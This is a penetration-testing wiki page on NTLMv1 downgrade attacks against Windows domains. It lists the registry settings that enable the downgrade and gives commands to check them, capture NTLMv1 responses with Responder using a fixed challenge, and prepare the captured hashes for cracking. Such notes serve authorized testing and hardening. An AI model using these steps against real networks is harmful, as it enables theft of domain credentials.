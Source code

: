 # NTLMv1 Downgrade

- [https://github.com/NotMedic/NetNTLMtoSilverTicket](https://github.com/NotMedic/NetNTLMtoSilverTicket)
- [https://www.praetorian.com/blog/ntlmv1-vs-ntlmv2/](https://www.praetorian.com/blog/ntlmv1-vs-ntlmv2/)
- [https://www.trustedsec.com/blog/practical-attacks-against-ntlmv1/](https://www.trustedsec.com/blog/practical-attacks-against-ntlmv1/)

Client sends NTLMv1 response when `LmCompatibilityLevel` exists and is `2` or lower, which can be downgraded to "NTLMv1 w/o SSP" when `NtlmMinClientSec` is `0x20` or lower:

| Property Name                                                                                                                                                          | Property Path                                      |
|------------------------------------------------------------------------------------------------------------------------------------------------------------------------|----------------------------------------------------|
| [LmCompatibilityLevel](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/network-security-lan-manager-authentication-level) | `HKLM\SYSTEM\CurrentControlSet\Control\Lsa`        |
| [NtlmMinClientSec](http://systemmanager.ru/win2k_regestry.en/85673.htm)                                                                                                | `HKLM\SYSTEM\CurrentControlSet\Control\Lsa\MSV1_0` |




## Check

Check with PowerShell:

```
PS > (Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name LmCompatibilityLevel).LmCompatibilityLevel
2
PS > $decValue = (Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\MSV1_0\ -Name NtlmMinClientSec).NtlmMinClientSec
PS > $hexValue = "0x" + [string]::Format("{0:x}", $decValue)
PS > $hexValue
0x20
```

Check with [Seatbelt](https://github.com/GhostPack/Seatbelt/blob/fa0f2d94a049d825bef77e103e33167250ed2ac0/Seatbelt/Commands/Windows/NtlmSettingsCommand.cs#L149) ([example](https://0xdf.gitlab.io/2021/04/10/htb-apt.html#seatbelt)):

```
Cmd > .\Seatbelt.exe NTLMSettings
```




## Exploit

{% content-ref url="/pentest/infrastructure/ad/authentication-coercion.md" %}
[authentication-coercion.md](authentication-coercion.md)
{% endcontent-ref %}

Exploit with Responder with a known challenge of `1122334455667788` (see **Authentication Coercion** to trigger callbacks):

```
$ sudo ./Responder.py -I eth0 -v --lm --disable-ess
```




## ntlmv1-multi + crack.sh

- [https://crack.sh/netntlm/](https://crack.sh/netntlm/)
- [https://crack.sh/get-cracking/](https://crack.sh/get-cracking/)
- [https://crack.sh/cracking-ntlmv1-w-ess-ssp/](https://crack.sh/cracking-ntlmv1-w-ess-ssp/)
- [https://github.com/evilmog/ntlmv1-multi](https://github.com/evilmog/ntlmv1-multi)

Calculate the token:

```
$ python ntlmv1.py --ntlmv1 '<NTLMv1_RESPONSE_STRING>'
```

Check the final 2 bytes (4 characters) of the NT hash:

```
$ ~/tools/hashcat-utils/src/ct3_to_ntlm.bin <CT3> 1122334455667788
```
